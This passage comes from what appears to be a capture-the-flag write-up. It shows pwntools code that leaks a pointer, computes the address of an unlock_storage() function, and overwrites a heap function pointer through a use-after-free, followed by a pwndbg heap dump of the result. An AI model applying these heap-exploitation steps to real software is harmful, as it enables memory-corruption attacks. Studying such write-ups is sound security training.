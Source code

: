 Now we just have to add this value to the leaked pointer to calculate the address of `unlock_storage()`.
Let's add this to our exploit script.

```python3
leak = u64(io.readline()[:6] + b'\x00\x00')
log.info(f"printStorage leak: {hex(leak)}")

unlock_storage = leak + 0x319
log.info(f"unlock_storage: {hex(unlock_storage)}")

io.interactive()
```

### Overwrite the function pointer

Now we can overwrite the pointer to `printStorage()` with a pointer to `unlock_storage()`.

Let's *free()* the buffer using our helper function, then fill it with *0x48* chars and overwrite the function pointer.

```Python3
# overwrite printStorage with unlock_storage
free()

payload = b'V' * 0x48 + p64(unlock_storage)
malloc(0x50, payload)
```

Our heap look like this now.

{{< rawhtml >}}
<div class="highlight"><pre tabindex="0" style="color:#f8f8f2;background-color:#272822;-moz-tab-size:4;-o-tab-size:4;tab-size:4;"><code style="background-color:initial;"><font color="#F92672"><b>pwndbg&gt; </b></font>vis 1 0x555555603290

0x555555603290  <font color="#F4BF75">0x0000000000000000</font> <font color="#A1EFE4">0x0000000000000061</font> <font color="#A1EFE4">........a.......</font>
0x5555556032a0  <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">VVVVVVVVVVVVVVVV</font>
0x5555556032b0  <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">VVVVVVVVVVVVVVVV</font>
0x5555556032c0  <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">VVVVVVVVVVVVVVVV</font>
0x5555556032d0  <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">VVVVVVVVVVVVVVVV</font>
0x5555556032e0  <font color="#A1EFE4">0x5656565656565656</font> <font color="#A1EFE4">0x0000555555400eff</font> <font color="#A1EFE4">VVVVVVVV..@UUU..</font>
0x5555556032f0  <font color="#A1EFE4">0x0000000000000000</font> <font color="#AE81FF">0x0000000000020d11</font> <font color="#AE81FF">................</font>  &lt;-- Top chun
</code></pre></div>
{{< /rawhtml >}}

### Call `unlock_storage()`
